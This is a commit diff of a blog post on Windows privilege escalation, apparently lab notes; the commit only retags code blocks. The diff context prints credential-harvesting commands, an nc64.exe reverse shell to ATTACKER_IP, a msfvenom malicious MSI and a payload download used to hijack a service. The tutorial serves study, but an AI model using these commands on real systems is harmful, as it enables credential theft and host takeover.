

Before and after one commit to VOiD-Ayush/The_Awesome_Blog, a Jekyll site: the page built from all_collections/_posts/2022-07-18-Windows-Privilege-Escalation.md, in a window 1280 px wide and 1400 px high, scrolled down 9732 px. Shown: the whole window at 96% size, without its empty margins (183-1096 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
hopefully it works now.

````diff
--- a/all_collections/_posts/2022-07-18-Windows-Privilege-Escalation.md
+++ b/all_collections/_posts/2022-07-18-Windows-Privilege-Escalation.md
@@ -77,7 +77,9 @@ As part of these files, you might encounter credentials:
 
 Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:
 
-`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
+```bash
+type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
+```
 
 Note: The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.
 
@@ -100,7 +102,9 @@ Internet Information Services (IIS) is the default web server on Windows install
 - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
 Here is a quick way to find database connection strings on the file:
 
-`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
+```bash
+type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
+```
 
 ## Retrieve Credentials from Software: PuTTY
 
@@ -108,7 +112,9 @@ PuTTY is an SSH client commonly found on Windows systems. Instead of having to s
 
 To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
 
-`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
+```bash
+reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
+```
 
 Note: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
 
@@ -126,7 +132,7 @@ Looking into scheduled tasks on the target system, you may see a scheduled task
 
 Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:
 
-```py
+```bash
 schtasks /query /tn vulntask /fo list /v
 Folder: \
 HostName:                             THM-PC1
@@ -139,7 +145,7 @@ You will get lots of information about the task, but what matters for us is the
 
 If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:
 
-```py
+```bash
 icacls c:\tasks\schtask.bat
 c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)
@@ -148,7 +154,7 @@ c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
 
 As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
 
-```py
+```bash
 C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
 ```
 
@@ -167,13 +173,15 @@ Windows installer files (also known as `.msi` files) are used to install applica
 
 This method requires two registry values to be set. You can query these from the command line using the commands below.
 
-```py
+```bash
 C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
 C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
 ```
 To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:
 
-`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.145.3 LPORT=LOCAL_PORT -f msi -o malicious.msi`
+```bash
+msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.145.3 LPORT=LOCAL_PORT -f msi -o malicious.msi
+```
 
 As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
 
@@ -189,7 +197,7 @@ Each service on a Windows machine will have an associated executable which will
 
 To better understand the structure of a service, let's check the apphostsvc service configuration with the sc qc command:
 
-```py
+```bash
 C:\> sc qc apphostsvc
 [SC] QueryServiceConfig SUCCESS
 
@@ -226,7 +234,7 @@ If the executable associated with a service has weak permissions that allow an a
 
 To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using sc:
 
-```py
+```bash
 C:\> sc qc WindowsScheduler
 [SC] QueryServiceConfig SUCCESS
 
@@ -244,7 +252,7 @@ SERVICE_NAME: windowsscheduler
 
 We can see that the service installed by the vulnerable software runs as `svcuser1` and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe.` We then proceed to check the permissions on the executable:
 
-```py
+```bash
 C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
 C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                   NT AUTHORITY\SYSTEM:(I)(F)
@@ -268,12 +276,12 @@ Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
 ```
 We can then pull the payload from Powershell with the following command:
 
-```py
+```bash
 wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
 ```
 
 Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
-```py
+```bash
 C:\> cd C:\PROGRA~2\SYSTEM~1\
 
 C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
@@ -291,7 +299,7 @@ Kali Linux
 user@attackerpc$ nc -lvp 4445
 ```
 And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
-```py
+```bash
 C:\> sc stop windowsscheduler
 C:\> sc start windowsscheduler
 ```
````
